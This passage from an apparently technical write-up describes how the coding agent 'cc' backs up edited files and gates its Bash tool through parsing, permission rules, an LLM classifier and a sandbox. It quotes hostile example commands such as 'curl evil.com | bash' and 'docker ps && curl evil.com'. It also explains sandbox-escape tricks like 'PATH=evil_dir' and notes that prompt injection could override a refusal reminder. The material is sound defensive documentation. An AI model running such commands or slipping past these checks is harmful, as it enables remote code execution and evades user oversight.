Results are capped at 100 files (configurable via `globLimits`). When results are truncated, the output includes a message suggesting a more specific path or pattern. Paths are relativized under the current working directory to save tokens, matching the Grep tool's approach.

### File-history backup system

The file-history system provides checkpoint-restore semantics for all file edits. When a file is about to be edited, `fileHistoryTrackEdit` creates a v1 backup keyed by the content hash:

```typescript
// src/utils/fileHistory.ts:L86-L155
export async function fileHistoryTrackEdit(
  updateFileHistoryState: (
    updater: (prev: FileHistoryState) => FileHistoryState,
  ) => void,
  filePath: string,
  messageId: UUID,
): Promise<void> {
  if (!fileHistoryEnabled()) {
    return
  }

  const trackingPath = maybeShortenFilePath(filePath)

  // Phase 1: check if backup is needed. Speculative writes would overwrite
  // the deterministic {hash}@v1 backup on every repeat call — a second
  // trackEdit after an edit would corrupt v1 with post-edit content.
  let captured: FileHistoryState | undefined
  updateFileHistoryState(state => {
    captured = state
    return state
  })
  if (!captured) return
  const mostRecent = captured.snapshots.at(-1)
  if (!mostRecent) {
    logError(new Error('FileHistory: Missing most recent snapshot'))
    logEvent('tengu_file_history_track_edit_failed', {})
    return
  }
  if (mostRecent.trackedFileBackups[trackingPath]) {
    // Already tracked in the most recent snapshot; next makeSnapshot will
    // re-check mtime and re-backup if changed. Do not touch v1 backup.
    return
  }

  // Phase 2: async backup.
  let backup: FileHistoryBackup
  try {
    backup = await createBackup(filePath, 1)
  } catch (error) {
    logError(error)
    logEvent('tengu_file_history_track_edit_failed', {})
    return
  }

  // Phase 3: commit. Re-check tracked (another trackEdit may have raced).
  updateFileHistoryState((state: FileHistoryState) => {
    try {
      const mostRecentSnapshot = state.snapshots.at(-1)
      if (
        !mostRecentSnapshot ||
        mostRecentSnapshot.trackedFileBackups[trackingPath]
      ) {
        return state
      }

      const updatedTrackedFiles = state.trackedFiles.has(trackingPath)
        ? state.trackedFiles
        : new Set(state.trackedFiles).add(trackingPath)

      const updatedMostRecentSnapshot = {
        ...mostRecentSnapshot,
        trackedFileBackups: {
          ...mostRecentSnapshot.trackedFileBackups,
          [trackingPath]: backup,
        },
      }

      return {
        ...state,
        trackedFiles: updatedTrackedFiles,
        snapshots: [
          ...state.snapshots.slice(0, -1),
          updatedMostRecentSnapshot,
        ],
      }
    } catch {
      return state
    }
  })
}
```

The three-phase structure (capture, async backup, commit) is necessary because the `updateFileHistoryState` function is synchronous -- the actual file copy must happen outside the updater to avoid async operations inside a React state setter. The idempotent v1 backup means that calling `fileHistoryTrackEdit` twice before an edit does not overwrite the v1 backup with post-edit content.

The snapshot system creates a new `FileHistorySnapshot` on every message turn, backing up any tracked files that have changed since the last snapshot. Snapshots are capped at 100 (`MAX_SNAPSHOTS`), with oldest entries evicted when the cap is reached. The `snapshotSequence` counter continues incrementing even after eviction, providing a monotonically increasing activity signal.

```mermaid
flowchart TD
    A[Edit tool called] --> B{fileHistoryEnabled?}
    B -->|no| C[Skip backup]
    B -->|yes| D[fileHistoryTrackEdit]
    D --> E{Already tracked in latest snapshot?}
    E -->|yes| F[Skip v1 backup - idempotent]
    E -->|no| G[createBackup v1 - content-hash keyed]
    G --> H[Commit to FileHistoryState]
    H --> I[Proceed with edit]
    I --> J[fileHistoryMakeSnapshot on next message]
    J --> K[Backup changed files as v2, v3, ...]
```

The rewind operation (`fileHistoryRewind`) restores all tracked files to their state at a target snapshot, deleting files that did not exist at that point and restoring backup content for files that have changed.

## Edge cases and failure modes

**Device-file blocking.** The `Read` tool blocks reads of device files that would hang or produce infinite output (`/dev/zero`, `/dev/random`, `/dev/stdin`, `/proc/self/fd/0-2`): `src/tools/FileReadTool/FileReadTool.ts:L96-L128`. This prevents the agent from accidentally hanging on special files. The check is path-based only (no I/O), and safe devices like `/dev/null` are intentionally omitted from the block list.

**macOS screenshot paths.** macOS uses a thin non-breaking space (U+202F) before AM/PM in screenshot filenames on some versions. The `Read` tool tries the alternate character if the file is not found at the given path: `src/tools/FileReadTool/FileReadTool.ts:L147-L159`. Without this fallback, reading macOS screenshots would fail on certain locale configurations.

**Binary file rejection.** The `Read` tool's `validateInput` checks `hasBinaryExtension` and rejects binary files, with exceptions for PDFs, images, and SVGs: `src/tools/FileReadTool/FileReadTool.ts:L470-L482`. The `Edit` tool blocks edits to `.ipynb` files and redirects to `NotebookEdit`: `src/tools/FileEditTool/FileEditTool.ts:L266-L273`. This prevents the model from corrupting structured JSON files with string-based edits.

**Token overflow.** The `Read` tool validates token counts after reading, throwing `MaxFileReadTokenExceededError` if the content exceeds the configured limit (default 25,000 tokens): `src/tools/FileReadTool/FileReadTool.ts:L175-L185`. This is a post-read check because token counting requires the actual content. The error message suggests using offset and limit parameters instead.

**UNC path security.** All three write-side tools skip filesystem operations for UNC paths (`\\server\share`) to prevent NTLM credential leaks on Windows: `src/tools/FileWriteTool/FileWriteTool.ts:L179-L184`, `src/tools/FileEditTool/FileEditTool.ts:L179-L181`. The check is performed early in `validateInput` before any I/O, ensuring that no SMB authentication is triggered.

**Notebook cell ID resolution.** `NotebookEdit` first tries to find cells by their actual ID field. If not found, it falls back to parsing the `cell-N` numeric index format: `src/tools/NotebookEditTool/NotebookEditTool.ts:L353-L367`. This dual-resolution strategy handles notebooks that use different cell-ID conventions.

**File-history idempotency.** The v1 backup is content-hash-keyed, so calling `fileHistoryTrackEdit` twice before an edit does not overwrite the v1 backup with post-edit content: `src/utils/fileHistory.ts:L99-L118`. The phase-1 check in `fileHistoryTrackEdit` explicitly checks whether the file is already tracked in the most recent snapshot before creating a new backup.

**Edit tool replace-mode edge case.** When `edit_mode` is `replace` and `cellIndex` equals `notebook.cells.length`, `NotebookEdit` converts the operation to `insert` automatically: `src/tools/NotebookEditTool/NotebookEditTool.ts:L371-L377`. This handles the case where the model tries to replace a cell one past the end, which is semantically an insertion.

**Read tool memory-file freshness.** When reading auto-memory files, the `Read` tool attaches a freshness note via `memoryFileMtimes`, a `WeakMap` keyed by the data object identity: `src/tools/FileReadTool/FileReadTool.ts:L746-L753`. The `WeakMap` auto-garbage-collects when the data object becomes unreachable after rendering, preventing memory leaks.

## Where cc diverges from the published pattern

HER Pattern 11 (Single-Purpose Tool Design) recommends that each tool have individual permission rules. cc implements this faithfully: `Read` and `Glob`/`Grep` use `checkReadPermissionForTool`, while `Write` and `Edit` use `checkWritePermissionForTool`. However, cc diverges in one notable way: the `Edit` tool does more than edit -- it also triggers skill discovery (`discoverSkillDirsForPaths`), LSP notifications (`didChange`/`didSave`), VS Code bridge updates, and file-history tracking. In a strict single-purpose reading, these are cross-cutting concerns that could be handled by the hook system (Pattern 12) rather than baked into the tool's `call` method. The practical reason is performance: inline calls avoid the IPC overhead of spawning a hook process for every file edit.

HER failure mode 6.4 (Placeholder Implementations) warns that agents default to stubs. cc's `Edit` tool combats this with its strict uniqueness requirement: if `old_string` is not unique in the file, the edit is rejected unless `replace_all` is set. This forces the model to be precise about what it is changing, reducing the risk of partial or placeholder edits.

HER failure mode 6.15 (Data Leakage Between Contexts) warns that file-based communication inherently persists data to disk. cc's file-history system exacerbates this: backups are stored under `~/.claude/file-history/` and persist across sessions. The `copyFileHistoryForResume` function even migrates backups between sessions via hard links (`src/utils/fileHistory.ts`). A sensitive file edited in one session could have its pre-edit content preserved in the backup directory of a later session.

The `Read` tool's `CYBER_RISK_MITIGATION_REMINDER` is an example of a prompt-level safety boundary rather than a structural one. It relies on the model following the instruction to refuse malware augmentation. HER failure mode 6.13 (Prompt Injection) warns that such instructions can be overridden by malicious content in the file being read. cc mitigates this by making the reminder a `system-reminder` block, which has higher instruction priority than user or tool-result content.

## Developer takeaways for building a long-running agent

1. **Enforce read-before-write at the tool level, not the prompt level.** cc's `readFileState` mechanism is a deterministic guard: even if the model never mentions reading a file, the tool rejects the write. Prompt-level instructions ("always read before writing") are unreliable because models sometimes skip steps under context pressure.

2. **Deduplicate reads to control context bloat.** The `file_unchanged` stub saves tokens on repeated reads of the same file. In a long-running agent session, the model may re-read files many times (e.g., after each edit). Without deduplication, each re-read duplicates thousands of tokens in context.

3. **Use content-hash-keyed backups for file history.** cc's `{sha256-prefix}@v{N}` naming scheme ensures that the v1 backup is idempotent even if `trackEdit` is called speculatively. This is critical for agents that may retry operations or call trackEdit before confirming the edit will proceed.

4. **Delegate to purpose-built search tools.** cc's `Grep` and `Glob` tools are thin wrappers around ripgrep. Building a custom search engine would be a maintenance burden with no advantage. The same principle applies to image processing (sharp) and PDF rendering (poppler).

5. **Normalize Unicode in edit operations.** The `findActualString` / `preserveQuoteStyle` pipeline handles the mismatch between the model's output (which may use ASCII quotes) and the file's actual encoding (which may use curly quotes). Without this, edits to documentation files would frequently fail with "string not found."

6. **Guard against data leakage in persistent backup systems.** File-history backups contain the pre-edit content of every tracked file, stored indefinitely under the session directory. For agents handling sensitive data (credentials, secrets), the backup directory becomes a secondary attack surface. Consider implementing per-file opt-out or encryption for backup files.

7. **Sort search results by recency.** The `GrepTool`'s `files_with_matches` mode sorts results by file modification time (most recent first). This is a practical heuristic: the files the developer has been editing recently are more likely to be relevant than files that have not been touched in months. The same principle applies to any search tool in a codebase context.

8. **Provide explicit truncation signals.** When grep results are truncated by `head_limit`, the output includes `[Showing results with pagination = limit: N]` so the model knows there may be more results and can paginate with `offset`. Without this signal, the model might incorrectly conclude that the returned results are exhaustive.

9. **Handle the read-before-write race window.** cc's Edit and Write tools have a critical section between the staleness check and the disk write where no async operations should occur. The comment in `FileEditTool.ts` is explicit: "Please avoid async operations between here and writing to disk to preserve atomicity." A yield in this window (e.g., an `await` between the mtime check and `writeTextContent`) would allow concurrent edits to interleave, potentially causing data loss. For any read-modify-write cycle, ensure the check and write are in the same synchronous block.

10. **Skip dedup for write-tool entries in readFileState.** The `Read` tool's dedup mechanism checks `existingState.offset !== undefined` to exclude entries that came from `Edit` or `Write` (which store `offset: undefined`). Without this exclusion, a `Read` followed by an `Edit` followed by another `Read` in the same millisecond would return the `file_unchanged` stub against stale in-context content, because the post-edit mtime would match the entry that `Edit` recently wrote. The `offset` field doubles as a provenance marker: it distinguishes "I read this file" from "I wrote this file."

11. **Use `maxResultSizeChars` to control tool-result persistence.** The `GrepTool` sets `maxResultSizeChars: 20_000`, which is the tool-result persistence threshold. Grep results that exceed this threshold are not persisted across turns, reducing context bloat for large search results. The `Read` tool sets `maxResultSizeChars: Infinity` because its output should never be persisted -- the model will re-read the file if it needs the content again, and the dedup mechanism handles this efficiently. Choose the persistence threshold based on whether the tool output is likely to be needed verbatim in subsequent turns.

### Deep dive: the Write tool's atomic write and LSP notification sequence

The `Write` tool's `call` method follows a strict sequence to ensure data integrity. After the `validateInput` checks pass and the file-history backup is created, the tool enters a critical section where it reads the current file content, confirms no external modifications have occurred, and writes the new content. The comment in the source is explicit about the atomicity requirement: "Please avoid async operations between here and writing to disk to preserve atomicity."

After the write completes, the tool sends two LSP notifications: `didChange` (content has been modified) and `didSave` (file has been saved to disk). The `didSave` notification is particularly important for the TypeScript language server because it triggers diagnostics. Both notifications are fire-and-forget -- the tool does not await their completion before returning the result. This prevents the tool's response time from being affected by LSP server latency.

The tool also notifies the VS Code bridge via `notifyVscodeFileUpdated`, which updates the diff view in the VS Code extension. This notification includes both the original and new content, allowing the extension to render the diff without re-reading the file. The notification is also fire-and-forget.

Finally, the tool updates `readFileState` with the new content and mtime. This update is critical: without it, a subsequent `Edit` or `Write` call would fail the stale-view check because the `readFileState` entry would still contain the pre-write mtime. The update uses `offset: undefined` and `limit: undefined`, which marks the entry as a full read and excludes it from the `Read` tool's dedup mechanism.

### Deep dive: the NotebookEdit tool's cell mutation semantics

The `NotebookEdit` tool handles three distinct mutation types, each with different validation requirements:

**Replace mode.** The tool replaces the source of the target cell. For code cells, it also resets `execution_count` to `null` and clears `outputs`, since the cell has been modified and any previous execution results are stale. The `cell_type` field can be changed during replacement, allowing a markdown cell to be converted to a code cell or vice versa.

**Insert mode.** The tool creates a new cell and inserts it after the cell specified by `cell_id`, or at the beginning if no `cell_id` is provided. The `cell_type` parameter is required for insert operations because the tool cannot infer the type from a non-existent cell. For notebooks with `nbformat >= 4.5`, the tool generates a random cell ID using `Math.random().toString(36).substring(2, 15)`.

**Delete mode.** The tool removes the target cell from the `cells` array using `splice`. No other fields are modified. Deleted cells cannot be recovered through the tool itself; the file-history system provides the undo mechanism.

The tool writes the modified notebook back to disk using `jsonStringify` with an indent of 1 (matching the Jupyter notebook convention). The encoding and line endings are preserved from the original file. The `readFileState` is updated with the post-write mtime and `offset: undefined`, matching the `Edit` and `Write` tools' behavior.
# The Bash Tool, Classifiers, and Sandboxing

## Overview

The Bash tool is cc's most powerful and most dangerous tool. It executes arbitrary shell commands on the user's machine, and a single misstep -- `rm -rf /`, `curl evil.com | bash`, or `git push --force` -- can cause irreversible damage. cc responds to this risk with a layered defense: a deterministic classifier pipeline that maps commands to risk bands, a multi-source permission rule system, a tree-sitter--powered AST validator, and a sandbox isolation layer. Each layer can block or escalate independently, making the overall system resilient to any single layer's failure.

This chapter walks through the Bash tool's safety subsystem from the moment a command string enters `bashToolHasPermission` to the moment it is either approved, denied, or escalated to the user. The same architecture is mirrored by the PowerShell tool on Windows, which reuses the same permission--rule matching and sandbox logic with platform-specific classifiers.

The chapter ties to three HER references. HER Pattern 10 (Command Risk Classification) describes the deterministic pre-parsing and per-tool permission gating that cc implements across `bashSecurity.ts`, `bashPermissions.ts`, and `readOnlyValidation.ts`. HER Section 6.16 (Checkpoint-Restore Side Effects) warns that irreversible shell side effects can be replayed after a restore; cc's destructive-command warnings and denial-tracking subsystem mitigate this. HER Section 12.4 (Security Threat Model) frames the five-layer defense-in-depth that the Bash tool's permission pipeline embodies.

## Data structures and contracts

### The Bash tool input schema

The Bash tool's input is defined via `lazySchema` (deferred Zod evaluation that respects runtime feature flags). The core fields are `command` (the shell string to execute), `timeout` (milliseconds), `run_in_background`, and `dangerouslyDisableSandbox`:

```typescript
// src/tools/BashTool/BashTool.tsx:L1-L10
// (lazySchema wrapper ensures runtime feature flags are populated)
const BashToolSchema = lazySchema(() =>
  z.object({
    command: z.string().describe('The bash command to run'),
    timeout: semanticNumber().optional(),
    run_in_background: semanticBoolean().optional(),
    dangerouslyDisableSandbox: semanticBoolean().optional(),
    // ... additional fields
  })
)
```

### The classifier result type

The `bashClassifier.ts` exports a `ClassifierResult` type that the permission pipeline consumes:

```typescript
// src/utils/permissions/bashClassifier.ts:L5-L10
export type ClassifierResult = {
  matches: boolean
  matchedDescription?: string
  confidence: 'high' | 'medium' | 'low'
  reason: string
}

export type ClassifierBehavior = 'deny' | 'ask' | 'allow'
```

A classifier that returns `matches: true` with `confidence: 'high'` can auto-approve or auto-deny a command without user interaction. Lower-confidence results fall through to the interactive prompt.

### The SandboxInput type

Sandbox decisions are gated by `shouldUseSandbox.ts`, which consumes a `SandboxInput`:

```typescript
// src/tools/BashTool/shouldUseSandbox.ts:L13-L16
type SandboxInput = {
  command?: string
  dangerouslyDisableSandbox?: boolean
}
```

The sandbox layer is optional and feature-gated. When enabled, it routes commands through an isolated execution environment and applies an auto-allow path that still respects explicit deny/ask rules.

### Permission result type

Every stage of the permission pipeline produces a `PermissionResult`, a discriminated union on the `behavior` field:

```typescript
// src/utils/permissions/PermissionResult.ts (conceptual)
type PermissionResult =
  | { behavior: 'allow'; updatedInput?: unknown; decisionReason: PermissionDecisionReason }
  | { behavior: 'deny'; message: string; decisionReason: PermissionDecisionReason }
  | { behavior: 'ask'; message: string; decisionReason: PermissionDecisionReason; suggestions?: PermissionUpdate[] }
  | { behavior: 'passthrough'; message: string; decisionReason: PermissionDecisionReason; suggestions?: PermissionUpdate[] }
```

The pipeline is designed so that `deny` always takes precedence over `ask`, which takes precedence over `allow`. This deny-first evaluation is a core safety invariant.

### Command semantics

Not all non-zero exit codes indicate failure. The `commandSemantics.ts` module maps commands to their expected exit-code semantics:

```typescript
// src/tools/BashTool/commandSemantics.ts:L10-L17
export type CommandSemantic = (
  exitCode: number,
  stdout: string,
  stderr: string,
) => {
  isError: boolean
  message?: string
}
```

For example, `grep` returns exit code 1 when no matches are found -- a valid outcome, not an error. The `COMMAND_SEMANTICS` map at `src/tools/BashTool/commandSemantics.ts:L31` registers per-command interpreters for `grep`, `rg`, `find`, `diff`, `test`, and `[`.

### The BashTool component and its rendering contract

The main `BashTool` component at `src/tools/BashTool/BashTool.tsx` is built using the `buildTool` helper from `src/Tool.ts`. It defines the tool's input schema, its `call()` method (which invokes `exec` from `src/utils/Shell.ts`), and its `checkPermissions` delegate (which points to `bashToolHasPermission`). The component also manages several presentation concerns that interact with the safety subsystem:

The `isSearchOrReadBashCommand` function at `src/tools/BashTool/BashTool.tsx:L95` classifies commands into search, read, and list categories for collapsible display in the terminal UI. Search commands (`find`, `grep`, `rg`, `ag`, `ack`, `locate`, `which`, `whereis`) are collapsed with a match-count summary. Read commands (`cat`, `head`, `tail`, `less`, `more`, `wc`, `stat`, `file`, `strings`, `jq`, `awk`, `cut`, `sort`, `uniq`, `tr`) are collapsed with a line-count summary. List commands (`ls`, `tree`, `du`) get a directory-count summary.

Semantic-neutral commands (`echo`, `printf`, `true`, `false`, `:`) are skipped in any position within a pipeline, because they are pure output or status commands that do not affect the read/search nature of the overall pipeline. For example, `ls dir && echo "---" && ls dir2` is still classified as a read operation, not a compound write.

The `BASH_SILENT_COMMANDS` set at `src/tools/BashTool/BashTool.tsx:L81` tracks commands that typically produce no stdout on success (`mv`, `cp`, `rm`, `mkdir`, `rmdir`, `chmod`, `chown`, `chgrp`, `touch`, `ln`, `cd`, `export`, `unset`, `wait`). These receive a different UI treatment -- the tool result message omits the "N lines of output" summary.

The tool's `call()` method integrates with the file-history subsystem: when `fileHistoryEnabled()` returns true and the command modifies a tracked file, `fileHistoryTrackEdit` at `src/utils/fileHistory.ts` creates a content-hash-keyed backup before the edit, providing checkpoint-restore semantics for undo operations. This directly addresses HER Section 6.16's concern about irreversible side effects from checkpoint-restore attacks.

### The read-only validation system

The `readOnlyValidation.ts` module at `src/tools/BashTool/readOnlyValidation.ts` implements flag-level allowlisting -- the practice of validating individual CLI flags for complex commands rather than using command-level regexes. The `CommandConfig` type at `src/tools/BashTool/readOnlyValidation.ts:L35` defines a unified validation configuration:

```typescript
// src/tools/BashTool/readOnlyValidation.ts:L35-L50
type CommandConfig = {
  safeFlags: Record<string, FlagArgType>
  regex?: RegExp
  additionalCommandIsDangerousCallback?: (rawCommand: string, args: string[]) => boolean
  respectsDoubleDash?: boolean
}
```

The `safeFlags` record maps each flag name to its argument type (`none` for boolean flags, `string` for flags that take a value, `number` for numeric flags, `path` for file-path arguments). The `validateFlags` function parses the command's arguments against this configuration, flagging any unrecognized flags as potentially dangerous. This is the implementation of the terminology registry's "flag-level allowlisting" entry -- it prevents a command like `find -exec rm {} \;` from being classified as read-only just because `find` is in the read-only command list, since `-exec` is deliberately excluded from `find`'s safe flags.

The `COMMAND_ALLOWLIST` at `src/tools/BashTool/readOnlyValidation.ts:L35` aggregates read-only command definitions from multiple categories: `GIT_READ_ONLY_COMMANDS` (git log, git diff, git show, etc.), `RIPGREP_READ_ONLY_COMMANDS` (grep, rg, ag, ack), `DOCKER_READ_ONLY_COMMANDS` (docker ps, docker images, etc.), `GH_READ_ONLY_COMMANDS` (gh pr list, gh issue view, etc.), `PYRIGHT_READ_ONLY_COMMANDS` (pyright, pyright-python), and `EXTERNAL_READONLY_COMMANDS` (a catch-all for known-safe read commands like ls, cat, head, tail, wc, etc.).

## Control flow

### The permission pipeline: from command string to decision

When the model invokes the Bash tool, the harness calls `bashToolHasPermission` at `src/tools/BashTool/bashPermissions.ts:L1663`. This function is the central dispatch for the entire safety pipeline. Its logic proceeds through a series of gates, each capable of short-circuiting the evaluation:

```mermaid
flowchart TD
    A[Model invokes BashTool] --> B[AST Parse: parseCommandRaw]
    B -->|too-complex| C[Respect deny rules, then ask]
    B -->|simple| D[checkSemantics: zsh builtins, eval]
    D -->|fail| E[Respect deny rules, then ask]
    B -->|parse-unavailable| F[Legacy shell-quote pre-check]
    F -->|malformed| G[ask with parse error]
    D -->|ok| H[AST subcommands extracted]
    F -->|ok| H
    H --> I{Sandbox enabled?}
    I -->|yes| J[checkSandboxAutoAllow]
    J -->|deny/ask| K[Return deny/ask]
    J -->|allow| L[Return allow]
    I -->|no| M[Exact-match deny/ask check]
    M -->|deny/ask| N[Return deny/ask]
    M -->|passthrough| O[Classifier: deny/ask descriptions]
    O -->|high-confidence deny| P[Return deny]
    O -->|high-confidence ask| Q[Return ask + pendingClassifierCheck]
    O -->|no match| R[checkCommandOperatorPermissions]
    R --> S[Per-subcommand bashToolCheckPermission]
    S --> T{Any deny?}
    T -->|yes| U[Return deny]
    T -->|no| V{Any ask?}
    V -->|yes| W[Return ask + pendingClassifierCheck]
    V -->|no| X[Return allow]
```

### Step 1: AST-based security parsing

The first gate is `parseCommandRaw` at `src/utils/bash/parser.ts`, which invokes tree-sitter to produce a structured AST. The result is one of three kinds:

- **simple**: The command parsed cleanly into `SimpleCommand[]` objects. Each command has its `text` span, `argv` array, and `redirects` extracted. This is the happy path.
- **too-complex**: The parse succeeded but found structures that cannot be statically analyzed (command substitution, expansion, control flow, parser differentials). The pipeline respects exact-match deny/ask/allow rules, then falls through to `ask`.
- **parse-unavailable**: Tree-sitter is not loaded (external builds) or the feature flag is off. Falls back to legacy shell-quote parsing.

When the AST produces `simple` commands, `checkSemantics` from `src/utils/bash/ast.ts` runs a name-level check for dangerous builtins: `eval`, `exec`, `source`, `zmodload`, and the full ZSH dangerous-commands set defined at `src/tools/BashTool/bashSecurity.ts:L45-L74`. The semantic check also validates that the command does not contain inline code execution constructs like `bash -c`, `sh -c`, or `zsh -c`, which would allow arbitrary code to bypass the classifier's name-level analysis. When `checkSemantics` returns `{ ok: false }`, the pipeline does not immediately block -- it first checks whether any deny rule matches the command, and only if no deny matches does it escalate to `ask`. This two-step process ensures that a user with an explicit allow rule for `bash -c "safe_script.sh"` is not blocked by the semantic check.

The tree-sitter parse also extracts `Redirect` objects from the AST. These redirects are passed downstream to `checkPathConstraints`, which uses them to validate that output redirections do not write to dangerous paths. This is critical because `splitCommand_DEPRECATED` strips redirections before producing subcommands, so the per-subcommand path check would miss them without the AST-extracted redirect list. The `astRedirects` field at `src/tools/BashTool/bashPermissions.ts:L1697` stores these for use in the path-validation step.

A shadow-mode telemetry system at `src/tools/BashTool/bashPermissions.ts:L1707` compares tree-sitter's subcommand splits against the legacy `splitCommand_DEPRECATED` splits. The shadow mode records divergence events (`tengu_tree_sitter_shadow`) but does not affect the permission decision -- it always forces the legacy path. This allows the team to measure tree-sitter's accuracy in production before switching to it as the authoritative parser.

### Step 2: Legacy security validators

When tree-sitter is unavailable, the pipeline falls back to `bashCommandIsSafeAsync_DEPRECATED` from `src/tools/BashTool/bashSecurity.ts`. This function runs approximately 23 individual regex-based validators, including checks for:

- Command substitution (`$()`, backticks, process substitution `<()`)
- Zsh-specific dangers (equals expansion `=cmd`, glob qualifiers, `zmodload`, `sysopen`, `ztcp`)
- IFS injection, backslash-escaped operators, brace expansion, control characters
- Malformed token injection, comment-quote desync, quoted newlines

The validator IDs are numeric (1--23) for analytics logging, defined in `BASH_SECURITY_CHECK_IDS` at `src/tools/BashTool/bashSecurity.ts:L77-L101`.

### Step 3: Sandbox auto-allow

When sandboxing is enabled and `shouldUseSandbox` returns true, the pipeline calls `checkSandboxAutoAllow` at `src/tools/BashTool/bashPermissions.ts:L1270`. This function checks explicit deny/ask rules for the full command and each subcommand individually (to handle compound commands where a prefix rule like `Bash(rm:*)` would not match the full compound string). If no deny or ask rules match, the command is auto-allowed with the sandbox as the execution environment.

The `shouldUseSandbox` function at `src/tools/BashTool/shouldUseSandbox.ts:L130` checks three conditions: sandboxing is enabled, the command is not explicitly disabled, and the command does not match user-configured `excludedCommands` patterns. Excluded commands are matched using the same fixed-point stripping algorithm as permission rules -- iteratively applying `stripAllLeadingEnvVars` and `stripSafeWrappers` until no new candidates are produced. The `containsExcludedCommand` function at `src/tools/BashTool/shouldUseSandbox.ts:L21` splits compound commands into subcommands and checks each one against the exclusion patterns, preventing a compound command from escaping the sandbox just because its first subcommand matches an excluded pattern. For example, `docker ps && curl evil.com` would not escape sandboxing just because `docker ps` is in the excluded list.

The `BINARY_HIJACK_VARS` regex at `src/tools/BashTool/bashPermissions.ts:L708` is passed as a blocklist to `stripAllLeadingEnvVars` during excludedCommands matching. This prevents stripping environment variables that change which binary runs -- `LD_PRELOAD`, `DYLD_*`, and `PATH` -- because `PATH=evil_dir docker ps` would execute a different `docker` binary, not the one the user intended to exclude from sandboxing.

When the sandbox auto-allow path activates (no deny/ask rules match), the command is executed in the sandbox with `decisionReason.type === 'other'` and reason "Auto-allowed with sandbox (autoAllowBashIfSandboxed enabled)". This distinguishes sandbox auto-allow from rule-based allow in analytics, which is important for monitoring whether the sandbox is being used as intended.

### Step 4: Rule matching

The `bashToolCheckPermission` function at `src/tools/BashTool/bashPermissions.ts:L1050` is the core rule evaluator. It processes rules in a strict precedence order:

1. **Exact-match deny/ask rules**: Checked first via `bashToolCheckExactMatchPermission` at `src/tools/BashTool/bashPermissions.ts:L991`.
2. **Prefix/wildcard deny rules**: Checked before allow rules so that a deny always wins over an allow.
3. **Path constraints**: `checkPathConstraints` validates that the command does not write outside allowed directories, with special handling for `cd`+redirect combinations.
4. **Exact-match allow rules**: Only checked after deny/ask rules.
5. **Prefix/wildcard allow rules**: Checked last.
6. **sed constraints**: Blocks dangerous sed operations before mode auto-allow.
7. **Mode-specific handling**: `checkPermissionMode` from `src/tools/BashTool/modeValidation.ts:L72` handles acceptEdits mode, which auto-allows filesystem commands like `mkdir`, `touch`, `rm`, `mv`, `cp`, and `sed`.
8. **Read-only auto-allow**: If `BashTool.isReadOnly(input)` returns true, the command is automatically allowed.

### Step 5: The classifier pipeline

```mermaid
classDiagram
    class bashToolHasPermission {
        +Promise~PermissionResult~ bashToolHasPermission(input, context)
    }
    class ASTParse {
        +parseCommandRaw(command)
        +parseForSecurityFromAst(command, astRoot)
    }
    class checkSemantics {
        +checkSemantics(commands) SemanticResult
    }
    class checkSandboxAutoAllow {
        +PermissionResult checkSandboxAutoAllow(input, ctx)
    }
    class bashToolCheckPermission {
        +PermissionResult bashToolCheckPermission(input, ctx, hasCd, astCmd)
    }
    class filterRulesByContentsMatchingInput {
        +PermissionRule[] filterRules(input, rules, mode)
    }
    class stripSafeWrappers {
        +String stripSafeWrappers(command)
    }
    class stripAllLeadingEnvVars {
        +String stripAllLeadingEnvVars(command, blocklist)
    }
    class classifyBashCommand {
        +Promise~ClassifierResult~ classify(cmd, cwd, descriptions, behavior)
    }
    class checkPathConstraints {
        +PermissionResult checkPathConstraints(input, cwd, ctx, hasCd)
    }
    class checkPermissionMode {
        +PermissionResult checkPermissionMode(input, ctx)
    }
    class BashToolIsReadOnly {
        +boolean isReadOnly(input)
    }

    bashToolHasPermission --> ASTParse : step 1
    ASTParse --> checkSemantics : if simple
    bashToolHasPermission --> checkSandboxAutoAllow : if sandbox enabled
    bashToolHasPermission --> bashToolCheckPermission : step 4
    bashToolCheckPermission --> filterRulesByContentsMatchingInput : deny/ask/allow rules
    filterRulesByContentsMatchingInput --> stripSafeWrappers : normalize commands
    filterRulesByContentsMatchingInput --> stripAllLeadingEnvVars : deny-rule stripping
    bashToolHasPermission --> classifyBashCommand : parallel deny + ask
    bashToolCheckPermission --> checkPathConstraints : after deny/ask rules
    bashToolCheckPermission --> checkPermissionMode : after sed check
    bashToolCheckPermission --> BashToolIsReadOnly : final gate
```

The classifier is an LLM-based system that evaluates commands against user-defined prompt descriptions. When `isClassifierPermissionsEnabled()` returns true and the mode is not `auto` (which has its own classifier), `bashToolHasPermission` runs deny and ask classifiers in parallel via `classifyBashCommand`. A high-confidence match on a deny description immediately blocks the command; a high-confidence match on an ask description escalates to the user. When neither matches, the pipeline continues.

The speculative classifier check (`startSpeculativeClassifierCheck` at `src/tools/BashTool/bashPermissions.ts:L1502`) begins the classifier evaluation in parallel with PreToolUse hooks and permission-dialog setup, so that by the time the user sees the prompt, the classifier may already have resolved it.

### Step 6: Destructive command warnings

The `destructiveCommandWarning.ts` module at `src/tools/BashTool/destructiveCommandWarning.ts:L1` is a purely informational layer -- it does not affect permission decisions. It scans commands against a list of `DESTRUCTIVE_PATTERNS` and returns human-readable warnings:

```typescript
// src/tools/BashTool/destructiveCommandWarning.ts:L12-L16
const DESTRUCTIVE_PATTERNS: DestructivePattern[] = [
  { pattern: /\bgit\s+reset\s+--hard\b/, warning: 'Note: may discard uncommitted changes' },
  { pattern: /\bgit\s+push\b[^;&|\n]*[ \t](--force|--force-with-lease|-f)\b/, warning: 'Note: may overwrite remote history' },
  // ... 15 more patterns covering git, rm, database, and infrastructure commands
]
```

The warnings are displayed in the permission dialog so the user can make an informed decision. This connects to HER Section 6.16: destructive commands that cause irreversible side effects are exactly the ones that checkpoint-restore attacks replay.

### Step 7: Command semantics for exit codes

After a command executes, `interpretCommandResult` at `src/tools/BashTool/commandSemantics.ts:L124` maps the exit code through the appropriate `CommandSemantic`. This prevents cc from treating expected non-zero exit codes as errors (e.g., `grep` returning 1 when no matches are found), which would cause the model to waste turns on false failures.

### The sandbox and permission decision state machine

The interaction between sandbox, classifiers, and permission rules can be understood as a state machine. The following diagram shows the possible states a Bash tool use can transition through from the initial invocation to a final decision:

```mermaid
stateDiagram-v2
    [*] --> ASTParse: Bash tool invoked
    ASTParse --> TooComplex: unparseable structure
    ASTParse --> SemanticCheck: clean parse
    ASTParse --> LegacyFallback: tree-sitter unavailable
    
    TooComplex --> DenyCheck: respect deny rules first
    DenyCheck --> Ask: no deny matched, too complex to prove safe
    
    SemanticCheck --> SemanticBlock: eval, zmodload, zsh builtins
    SemanticCheck --> SandboxGate: semantics OK
